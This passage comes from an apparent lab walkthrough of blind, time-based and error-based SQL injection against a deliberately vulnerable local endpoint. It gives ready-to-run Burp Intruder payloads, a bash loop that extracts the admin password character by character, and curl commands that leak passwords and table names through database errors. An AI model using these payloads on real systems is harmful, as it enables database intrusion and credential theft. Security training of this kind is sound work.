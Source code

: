 **Using Burp Suite with Intruder:**
1. Send request to Intruder
2. Set payload position: `1' AND ASCII(SUBSTR((SELECT password FROM users WHERE role='admin'),§1§,1))>§65§--`
3. Configure two payload sets:
   - Position 1: Numbers 1-50 (character position)
   - Position 2: Numbers 32-126 (ASCII values)
4. Set attack type to "Cluster Bomb"
5. Use grep matching to identify successful extractions

#### Step 2: Time-Based Blind SQL Injection
**Objective:** Use time delays for data extraction

**Using curl with timing analysis:**
```bash
#!/bin/bash
# Time-based extraction with automated timing
for i in {1..20}; do
  for ascii in {32..126}; do
    start_time=$(date +%s.%N)
    curl -s "http://localhost:5000/api/vuln/sqli-advanced?username=admin'; IF(ASCII(SUBSTR((SELECT password FROM users WHERE role='admin'),$i,1))=$ascii,SLEEP(3),SLEEP(0))--"
    end_time=$(date +%s.%N)
    duration=$(echo "$end_time - $start_time" | bc)
    
    if (( $(echo "$duration > 2.5" | bc -l) )); then
      char=$(printf "\\$(printf '%03o' $ascii)")
      echo "Character $i: $char"
      break
    fi
  done
done
```

**Using Burp Suite with response timing:**
1. Send to Intruder with payload: `admin'; IF(ASCII(SUBSTR((SELECT password FROM users WHERE role='admin'),§1§,1))=§65§,SLEEP(5),SLEEP(0))--`
2. Configure Cluster Bomb attack with position and ASCII values
3. Sort results by "Response received" timing
4. Identify responses with 5+ second delays

#### Step 3: Error-Based SQL Injection
**Objective:** Extract data through SQL error messages

**Using curl with error extraction:**
```bash
curl "http://localhost:5000/api/vuln/sqli-advanced?payload=1' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT password FROM users LIMIT 1),0x7e))--"
curl "http://localhost:5000/api/vuln/sqli-advanced?payload=1' AND UPDATEXML(1,CONCAT(0x7e,(SELECT table_name FROM information_schema.tables LIMIT 1),0x7e),1)--"
```

**Advanced error-based techniques:**
```bash
# Double query error injection
curl "http://localhost:5000/api/vuln/sqli-advanced?payload=1' AND (SELECT COUNT(*) FROM (SELECT 1 UNION SELECT 2 UNION SELECT CONCAT(0x7e,password,0x7e) FROM users)x GROUP BY x HAVING COUNT(*)>1)--"

# BIGINT overflow error injection
curl "http://localhost:5000/api/vuln/sqli-advanced?payload=1' AND EXP(~(SELECT * FROM (SELECT CONCAT(0x7e,password,0x7e) FROM users LIMIT 1)x))--"
```
